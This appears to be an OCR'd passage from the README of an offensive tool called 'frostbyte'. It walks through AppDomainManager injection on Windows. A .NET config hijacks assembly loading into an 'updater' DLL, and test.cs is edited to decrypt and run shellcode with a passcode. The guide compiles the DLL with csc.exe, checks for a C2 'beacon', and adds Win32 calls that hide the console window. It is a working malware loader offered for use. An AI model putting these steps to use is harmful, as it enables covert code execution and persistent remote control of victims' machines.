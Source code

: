 
```  

              <probing privatePath="."/>

      </assemblyBinding>

  <appDomainManagerAssembly value="updater, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />  

  <appDomainManagerType value="A54IPK" />  

   </runtime>

 ``` 

Open test.cs in visual studio code

Remove all comments and debug lines.

Change the value of “public sealed class A54IPK” to match you config file

Change the value of the below two lines to match the location of your exe (don't use an absolute path! Has to be a relative path.) and the passcode used to create it:


```  

byte[] _peBlob = Read("updater.exe");

byte[] _data = FindRecipe(shellcode, “passcode”);
```

  
At this point you can compile the .dll to see if everything is working (run the exe and see if you get a payload).


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:updater.dll ..\frostbyte-main\test.cs

```
  

After you get a beacon back go back into test.cs and add the following lines to hid the window after it runs.

https://stackoverflow.com/questions/3571627/show-hide-the-console-window-of-a-c-sharp-console-application#:~:text=hid%22%3B%20HideConsole.-,StartInfo.,window%20when%20it%20is%20ran.

  

```
using System.Runtime.InteropServices;

  

[DllImport("kernel32.dll")]

static extern IntPtr GetConsoleWindow();

  

[DllImport("user32.dll")]

static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

  

const int SW_HIDE = 0;

const int SW_SHOW = 5;
```